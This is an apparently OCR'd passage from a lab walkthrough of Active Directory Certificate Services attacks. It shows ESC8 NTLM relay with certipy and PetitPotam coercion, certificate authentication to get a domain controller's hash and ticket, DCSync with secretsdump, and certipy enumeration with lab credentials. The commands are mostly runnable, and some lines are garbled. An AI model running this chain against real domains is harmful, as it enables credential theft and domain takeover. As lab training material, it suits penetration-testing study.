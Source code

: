 ```
certipy-ad auth -ldap-shell -pfx meereen.pfx -dc-ip 192.168.56.12
```

Well get an interactive session but you do not gain to much there. 
## ESC8 - with certipy

Oliver Lyak as done a wonderful job on the ADCS attack tool [certipy](https://github.com/ly4k/Certipy) to automatize a lots of things.

Let’s do the same attack with certipy, setup the listener :
```
certipy-ad relay -target http://192.168.178.12 -ca 192.168.56.23 -template DomainController
```


- trig the coerce just like we did before with petitpotam

```
python petitpotam.py 192.168.56.1 meereen.essos.local
```

> [!NOTE]
> Need to find out what is the problem here

- Now we got the certificate so we can get the NT hash of the DC and the TGT with the command :

```
certipy-ad auth -pfx meereen.pfx -dc-ip 192.168.56.12
```

- And we can launch a DCsync with secretsdump and the ticket we get

```
export KRB5CCNAME=/workspace/esc8/meereen.ccache
secretsdump -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local<br># or 
```
with the hash
```
secretsdump -hashes ':39d964a01c61c19fe36c71627d7ab56c' -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local|`
```

## ADCS reconnaissance and enumeration (with certipy and bloodhound)

- Let’s start the enumeration with certipy
```
certipy-ad find -u khal.drogo@essos.local -p 'horse' -dc-ip 192.168.56.12
```

- This will search the certificate server, and dump all the information needed in three format :
    - bloodhound : a zip ready to import in bloodhound (if you use certipy 4.0 you will have to install the [bloodhound gui modified by oliver lyak](https://github.com/ly4k/BloodHound/releases), if you do not want to use the modified version, you must use the `-old-bloodhound` option)
    - json : information json formated
    - txt : a textual format
